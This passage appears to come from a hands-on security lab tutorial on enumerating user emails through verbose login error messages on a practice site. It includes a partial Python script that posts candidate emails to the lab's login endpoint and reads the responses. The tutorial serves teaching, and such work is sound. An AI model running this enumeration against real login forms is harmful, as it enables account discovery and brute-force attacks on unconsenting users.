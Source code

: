 When it comes to breaching authentication, enumeration and brute forcing go hand in hand:

- **User Enumeration**: Discovering valid usernames sets the stage, reducing the guesswork in subsequent brute force attacks.
- **Exploiting Verbose Errors**: The insights gained from these errors can illuminate aspects like password policies and account lockout mechanisms, paving the way for more effective brute-force strategies.

In summary, verbose errors are like ***breadcrumbs*** leading attackers deeper into the system, providing them with insights needed to tailor their strategies and potentially compromise security in ways that could go undetected until it's too late.
## Enumeration in Authentication Forms

In this HackerOne [report](https://hackerone.com/reports/1166054), the attacker was able to enumerate users using the website's Forget Password function. Similarly, we can also enumerate emails in login forms. For example, navigate to [http://enum.thm/labs/verbose_login/](http://enum.thm/labs/verbose_login/)[](http://enum.thm/labs/verbose_login/) and put any email address in the Email input field.

When you input an invalid email, the website will respond with "Email does not exist". Indicating that the email has not been registered yet. 

![](https://i.imgur.com/OAeurYW.png)

However, if the email is already registered, the website will respond with an invalid password error message, indicating that the email exists in the database but the password is incorrect.

![](https://i.imgur.com/0L6YoPY.png)
## Automation

Below is a Python script that will check for valid emails in the target web app. Save the code below as `script.py`.

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

```